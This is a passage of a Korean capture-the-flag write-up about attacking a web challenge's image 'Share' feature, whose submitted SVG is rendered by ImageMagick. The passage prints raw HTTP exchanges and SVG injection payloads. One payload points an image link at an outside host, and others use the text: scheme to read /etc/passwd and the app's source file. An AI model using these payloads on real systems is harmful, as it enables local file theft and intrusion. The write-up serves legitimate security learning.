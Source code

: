 단, 요청은 `preview` 기능이 아닌 `Share` 기능을 사용할때 `ImageMagick`에 의해 랜더링됩니다.

`Share` 기능은 `previewid`를 공유 URL로 만들어주는 기능입니다.

```
POST http://pwnable.org:5000/share HTTP/1.1
Host: pwnable.org:5000
Connection: keep-alive
Content-Length: 46
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://pwnable.org:5000
Referer: http://pwnable.org:5000/
Accept-Encoding: gzip, deflate
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7

previewid=f2bc983f-4ef5-4ade-89da-7e3ad321d626
```

```
HTTP/1.1 200 OK
Server: gunicorn/19.10.0
Date: Tue, 30 Jun 2020 07:47:27 GMT
Connection: close
Content-Type: application/json
Content-Length: 47

{"url": "http://pwnable.org:5000/share/tTVFUw"}
```

공유 URL을 접속하게 되면 `<img class="shareimg" src="/image/tTVFUw/png" id="preview"/>` 와 같이 이미지를 가져오며  `ImageMagick`에 의해 랜더링됩니다.

우리는 FLAG를 얻기 위해서 서버의 쉘을 획득하거나 파일을 읽을 수 있어야합니다.

이때 위에서 언급했던 이미지를 임의로 삽입 할 수 있는 취약점을 사용합니다.

```
[{"type":0,"message":"[smile.png\"/><image xmlns:xlink=\"http://www.w3.org/1999/xlink\" xlink:href=\"http://u1804.jeong.su:8888/\"/><test x=\"]"}]
```

여러가지 Scheme을 사용하여 LFI를 시도한 결과, 아래와 같은 입력 값을 사용하여 로컬 파일을 읽어 올 수 있었습니다.

```
xlink:href="text:/etc/passwd"

[{"type":0,"message":"[smile.png\"/><image xmlns:xlink=\"http://www.w3.org/1999/xlink\" xlink:href=\"text:/etc/passwd\"/><test x=\"]"}]
```

소스코드는 `/app/app.py` 경로에서 획득할 수 있었고 아래와 같이 이미지로 확인할 수 있습니다.

```
xlink:href="text:/app/app.py"

[{"type":0,"message":"[smile.png\"/><image xmlns:xlink=\"http://www.w3.org/1999/xlink\" xlink:href=\"text:/app/app.py\"/><test x=\"]"}]
```
